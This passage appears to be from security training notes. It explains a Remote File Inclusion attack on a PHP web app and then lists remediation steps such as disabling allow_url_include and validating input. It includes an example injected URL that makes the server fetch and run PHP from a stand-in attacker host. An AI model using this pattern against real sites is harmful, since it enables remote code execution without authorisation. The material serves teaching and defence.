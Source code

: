 #### **Example of Successful RFI Attack** <a href="#ub21d9ep34j" id="ub21d9ep34j"></a>

1. An attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt.
   * cmd.txt contains a printing message Hello THM: \<?PHP echo "Hello THM"; ?>.
2. The attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt.
3. If there is no input validation then the malicious URL passes into the include function.
4. The web app server sends a GET request to the malicious server to fetch the file.
   * The web app includes the remote file into the include function to execute the PHP file within the page and send the execution content to the attacker.
   * In this case, the current page somewhere will display the Hello THM message.

#### **Remediation** <a href="#id-79poxwa0whhu" id="id-79poxwa0whhu"></a>

* As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods.
* To prevent the file inclusion vulnerabilities, some common suggestions include:
  * Keep system and services, including web application frameworks, updated with the latest version.
  * Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
  * A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
  * Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow\_url\_fopen on and allow\_url\_include.
  * Carefully analyse the web application and allow only protocols and PHP wrappers that are in need.
  * Never trust user input, and make sure to implement proper input validation against file inclusion.
  * Implement whitelisting for file names and locations as well as blacklisting.
